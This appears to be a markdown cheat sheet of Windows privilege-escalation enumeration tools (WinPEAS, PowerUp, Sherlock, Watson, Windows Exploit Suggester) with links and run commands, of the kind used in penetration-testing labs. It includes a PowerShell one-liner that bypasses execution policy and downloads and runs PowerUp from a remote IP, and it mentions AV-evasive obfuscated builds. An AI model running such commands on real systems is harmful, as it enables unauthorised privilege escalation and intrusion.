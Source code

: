 # 1. Enumeration Scripts   
### A. System enumeration
#### Winpeas
- [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  

Some precompiled Winpeas version for x86 and x64 (some version are obfuscated to avoid AV) are available:  
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries

 #### Jaws (Powershell)
* [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)  
 
#### PowerUP (Powershell)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  

Command:  
- powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://10.10.10.10:8000/PowerUp.ps1'); Invoke-AllChecks  
  
 #### Seabelt (A compiler)
* [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
 
### B. Kernel exploit Enumeration
#### Sherlock
* [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)  
Command:  
* powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1  
  
 #### Watson (.NET (A compiler))
* [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)  
* [https://github.com/carlospolop/winPE/tree/master/binaries/watson](https://github.com/carlospolop/winPE/tree/master/binaries/watson)  
Before compiling, you need to know the version of powershell:  
◇ reg query "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\NET Framework Setup\\NDP"  
  
#### Windows exploit suggester
* [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)  
Command:  
* ./windows-exploit-suggester.py --update  
* /windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt  
◇ --database: database file created by the first command  
◇ --systeminfo: return of the systeminfo file on the windows box  